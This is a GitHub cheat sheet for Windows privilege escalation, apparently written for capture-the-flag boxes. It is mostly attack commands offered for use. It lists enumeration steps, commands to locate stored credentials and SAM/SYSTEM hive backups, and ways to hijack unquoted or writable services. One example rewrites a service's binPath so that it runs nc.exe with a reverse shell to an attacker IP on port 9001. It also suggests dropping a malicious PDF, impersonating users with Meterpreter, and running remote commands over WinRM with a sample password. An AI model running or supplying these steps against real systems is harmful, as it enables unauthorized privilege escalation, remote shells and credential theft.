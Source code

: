 # windows-privilege-escalation-cheat-sheet
Updating on a daily base.


Made By J3wker


  ██╗          ██╗██████╗ ██╗    ██╗██╗  ██╗███████╗██████╗      ██╗
 ██╔╝          ██║╚════██╗██║    ██║██║ ██╔╝██╔════╝██╔══██╗     ╚██╗ 
██╔╝█████╗     ██║ █████╔╝██║ █╗ ██║█████╔╝ █████╗  ██████╔╝█████╗╚██╗
╚██╗╚════╝██   ██║ ╚═══██╗██║███╗██║██╔═██╗ ██╔══╝  ██╔══██╗╚════╝██╔╝
 ╚██╗     ╚█████╔╝██████╔╝╚███╔███╔╝██║  ██╗███████╗██║  ██║     ██╔╝ 
  ╚═╝      ╚════╝ ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝     ╚═╝ 



BEFORE STARTING !! if system before 2012 - try juciypotato
use `systeminfo` | google the system and update version - look for CVE's and kernel Exploits.
If nothing found start the check list.


Check List:
_____________________

NOTE: List files you saw when you enumerated the web and looked intersering. 
Example:

`secret.php`
`db.php`
`auth.php`

Read them after getting a basic shell - might have creds in them 
if so `net user` try the creds against users - maybe it matches.

Example:
`runas /user:Administrator cmd.exe`
Check running process 
1. `ps`

or in powershell
```
Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize
```

remmber PID of weird process
Write it down and use
2. `netstat -ano`
Check for open ports - google that port - what is it ?

see Users
3. `net user`

see specific username information / groups
4. `net user username` - which group is he in ? Logs reader ? read logs - maybe passwords hidden, maybe automatic script the read logs
inject command!, part of "Remote Management Group" ? maybe use WinRM 

5. check Credentials mananger:

`dir C:\Users\username\AppData\Local\Microsoft\Credentials\`
`dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\`
`cmdkey /list` 
if is has keys try:

Domain could be also Hostname or just use username alone
runas /user:DOMAIN\Username /savecred command

if that doesnt work - try Meterpreter `load incognito`- maybe impersonate to a certain user

6. check `Documents` folder 
7. check `Downloads` folder
8. check `Program Files (x86)` folder
9. check `Program Files` folder
10. check `AppData` folder and etc `Local` - `LocalLow` - `Roaming`

Look for werid files and installed programs - look for exploits in them.

______________________________________________________
11. check services with write access - to change binpath

`accesschk.exe -accepteula -uvwc *`

Example:
1. `sc config usosvc binPath="C:\Windows\System32\spool\drivers\color\nc.exe 10.10.14.28 9001 -e cmd.exe"`
$ Start a listener on port 9001
2. `sc stop usosvc`
3. `sc start usosvc`
4. get a shell.
______________________________________________________

12. Check for files like .txt / .php - read them.
check for automated scripts that are waiting for certain files for example:

"Admin is waiting for PDF drop it in C:\Docs" - create a Malicious PDF - drop it

13. Look for backups files `SAM.bak` - `SYSTEM.bak`/ windows image backup.

```
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

14. What Groups are on the system? 
`net localgroup`

15. Unquoated services ? if so hijack it!

```
wmic service get name,displayname,pathname,startmode 2>nul |findstr /i "Auto" 2>nul |findstr /i /v "C:\Windows\\" 2>nul |findstr /i /v """
```

16. What scheduled tasks are there? Anything custom implemented?

`schtasks /query /fo LIST 2>nul | findstr TaskName`

or in powershell:

`Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State`

17. what is running on startup ?

`wmic startup get caption,command`

18. Permissions on specific folders ?

```
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"
```
NOTE: Change the value of "Everyone" to your desire.
example:

```
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
```

19. If you have user Creds and WinRM is open try:

NOTE: Change Values `$user`  and `$pw` to match your case.

```
$user = 'SNIPER\Chris'
$pw = '36mEAhz/B8xQ~2VM'
$secpw = ConvertTo-SecureString $pw -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $user,$secpw
```

Possible to convert into one-liner:

```
$user = 'SNIPER\Chris';$pw = '36mEAhz/B8xQ~2VM';$secpw = ConvertTo-SecureString $pw -AsPlainText -Force;$cred = New-Object System.Management.Automation.PSCredential $user,$secpw
```


and then:

```
Invoke-Command -Computer localhost -Credential $cred -ScriptBlock {command}
```

Get command at the user you prompted 








